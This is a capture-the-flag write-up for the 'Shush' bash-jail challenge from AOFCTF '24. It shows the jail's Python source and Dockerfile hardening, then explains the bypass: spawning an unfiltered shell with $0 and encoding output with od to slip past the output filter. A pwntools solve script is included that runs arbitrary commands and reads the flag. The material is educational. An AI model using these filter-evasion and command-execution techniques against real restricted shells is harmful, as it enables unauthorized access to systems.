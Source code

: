 ```yaml
---
title: AOFCTF '24 - Misc - Shush
date: '2024-04-29'
tags: ['misc', 'aofctf', 'bash-jail']
draft: false
summary: Using $0 to spawn a shell, then using od to convert output to decimal, then parsing the output.
---
```


## Challenge Description

![alt text](/static/writeups/aofctf-24/image-21.png)

## Solution

This was challenge was an amalgam of challs from PicoCTF 2024 and AmateursCTF 2024. However, in this case, the output had a banlist. Meaning that you cannot output characters. Looking at the source code that was provided:

```py:shush
#!/usr/bin/env python3
from subprocess import Popen, PIPE, STDOUT

INVALID_CHARS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]()._,<>|'
MAX_CHARS_ALLOWED = 5
OUTPUT_BAN = ["CTF", "FLAG", "root", "ctf-player"]
PROMPT = "sh[ush]$ "

while True:
    try:
        __input = input(PROMPT)
        if any(c in INVALID_CHARS for c in __input):
            raise Exception('INVALID_CHARS_ERROR: Command contains invalid characters')

        if len(__input) >= MAX_CHARS_ALLOWED:
            raise Exception(f"LENGTH_ERROR: Command is longer than {MAX_CHARS_ALLOWED} characters")

        p = Popen(["/bin/sh", "-c", __input], stdout=PIPE, stderr=STDOUT)
        output = p.stdout.read().decode('utf-8')

        if any(c in INVALID_CHARS for c in output):
            raise Exception('INVALID_CHARS_ERROR: Command output contains invalid characters')

        if any(banned.lower() in output.lower() for banned in OUTPUT_BAN):
            raise Exception('OUTPUT_ERROR: Command output contains banned characters')

        print(output)
    except Exception as E:
        print(E)
```

I also provided the Dockerfile

```Dockerfile
FROM theflash2k/pwn-chal:py38

ENV CHAL_NAME=shush
COPY ${CHAL_NAME} .
COPY flag.txt /

# Prevent unintended solutions:
ENV ENV=/etc/profile.d/aliases.sh
RUN rm -f /usr/local/bin/pip /usr/local/bin/pip3 && \
    chown root:root /var/tmp /tmp /run/lock /dev/shm /dev/mqueue /home/ctf-player && \
    chmod 770 /var/tmp /tmp /run/lock /dev/shm /dev/mqueue /home/ctf-player && \
    echo "alias exec=asdasdasdasd" > /etc/profile.d/aliases.sh && \
    echo "alias nohup=asdasdasdasd" >>  /etc/profile.d/aliases.sh && \
    echo "alias alias=asdasdasdasd" >>  /etc/profile.d/aliases.sh && \
    echo "alias env=asdasdasdasd" >>  /etc/profile.d/aliases.sh && \
    chmod 444 /etc/profile.d/aliases.sh

RUN mv /flag.txt /flag-$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 32 | head -n 1).txt
EXPOSE 8000
```

We can see that flag was being stored at `/` with a random name and a lot of unintended solutions were blocked (but I believe there still were many).

Let's go over my solution. My solution utilized `$0` to spawn a `/bin/sh` instance. This instance didn't have input filtering, however the output filter would match against: `INVALID_CHARS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\':{}[]()._,<>|'`.

What I came up with was utilizing `od` to convert the output to only numbers, and each number would be parseable in my python source. Manually trying this:

```bash
$ ./shush
sh[ush]$ $0
echo "test" | od -An -tu1
exit
 116 101 115 116  10
```

Now, if we were to decode the output:

![alt text](/static/writeups/aofctf-24/image-22.png)

Perfect, so we know we can get the flag, there are two approches: `cat /flag*` or getting a proper shell.

Since I love spawning shells, I'm going for the latter. My final solve script looked like:

```py
#!/usr/bin/env python3

from pwn import *

io = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process("./shush")

def decode(data: str):
    data = list(filter(lambda x: x != "", data.split("-")))
    return "".join([chr(int(x)) for x in data])

def run(cmd: str):
    BASE_CMD = "{cmd} | od -An -tu1 | tr ' ' '-'"
    io.sendlineafter(b"$ ", b"$0")
    cmd = BASE_CMD.format(cmd=cmd)
    print(f"Running: {cmd}")
    io.sendline(cmd.encode())
    io.sendline(b"exit")

    resp = io.recvuntil(b"sh[ush]")[:-9].decode().split("\n")
    output = ""
    for line in resp:
        line = decode(line)
        output += line

    io.sendline(b"exit") # so that we get the "sh[ush]" prompt:
    io.recvline()
    return output

output = run("ls /").split("\n")

idx = 0
for i, line in enumerate(output):
    if line.startswith("flag"):
        idx = i
        break

flag = run(f"cat /{output[idx]}")
print(f"Flag: {flag}")

io.interactive()
```

Now, what I did, wrapped the entire functionality inside the `run` function, and we can just give it any command, it'll run for us, so even if we did `cat /flag*`, it would still work.
